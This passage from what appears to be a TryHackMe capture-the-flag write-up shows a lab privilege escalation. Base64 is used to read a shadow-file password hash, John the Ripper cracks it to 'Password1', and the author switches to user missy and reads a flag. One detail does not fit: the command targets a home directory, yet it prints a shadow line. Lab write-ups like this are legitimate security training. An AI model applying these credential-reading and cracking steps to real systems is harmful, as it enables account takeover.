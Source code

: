- Same approach

```sh
[leonard@ip-10-10-1-102 home]$ LFILE=/home/missy/
[leonard@ip-10-10-1-102 home]$ /usr/bin/base64 "$LFILE" | base64 --decode
missy:$6$BjOlWE21$HwuDvV1iSiySCNpA3Z9LxkxQEqUAdZvObTxJxMoCp/9zRVCi6/zrlMlAQPAxfwaD2JCUypk4HaNzI3rPVqKHb/
```
- I used hashkiller website for that

#### Using John

```sh
└─$ john missy                                                 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Password1        (?)     
1g 0:00:00:19 DONE 2/3 (2024-08-09 20:49) 0.05249g/s 194.8p/s 194.8c/s 194.8C/s skeeter..Password1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                      
```
- Now getting into missy
```sh
[leonard@ip-10-10-1-102 home]$ su missy
Password: 
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
        LANGUAGE = (unset),
        LC_ALL = (unset),
        LANG = "C.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
[missy@ip-10-10-1-102 home]$ ls   
leonard  missy  rootflag
[missy@ip-10-10-1-102 home]$ cd missy/
[missy@ip-10-10-1-102 ~]$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos  perl5
[missy@ip-10-10-1-102 ~]$ cd Documents/
[missy@ip-10-10-1-102 Documents]$ ls
flag1.txt
[missy@ip-10-10-1-102 Documents]$ cat flag1.txt 
THM-42828719920544

```
